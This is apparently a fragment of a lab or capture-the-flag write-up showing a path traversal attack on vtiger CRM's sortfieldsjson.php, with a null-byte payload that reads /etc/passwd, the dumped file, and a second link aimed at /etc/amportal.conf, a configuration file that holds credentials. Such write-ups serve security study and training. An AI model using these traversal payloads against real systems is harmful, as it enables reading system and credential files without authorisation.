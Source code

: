 <https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00>


root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/spool/mail:/sbin/nologin news:x:9:13:news:/etc/news: uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin games:x:12:100:games:/usr/games:/sbin/nologin gopher:x:13:30:gopher:/var/gopher:/sbin/nologin ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin nobody:x:99:99:Nobody:/:/sbin/nologin mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash distcache:x:94:94:Distcache:/:/sbin/nologin vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin pcap:x:77:77::/var/arpwatch:/sbin/nologin ntp:x:38:38::/etc/ntp:/sbin/nologin cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash dbus:x:81:81:System message bus:/:/sbin/nologin apache:x:48:48:Apache:/var/www:/sbin/nologin mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin postfix:x:89:89::/var/spool/postfix:/sbin/nologin asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin spamfilter:x:500:500::/home/spamfilter:/bin/bash haldaemon:x:68:68:HAL daemon:/:/sbin/nologin xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin fanis:x:501:501::/home/fanis:/bin/bash 
---
[https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/ampportal.conf%00](https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00)
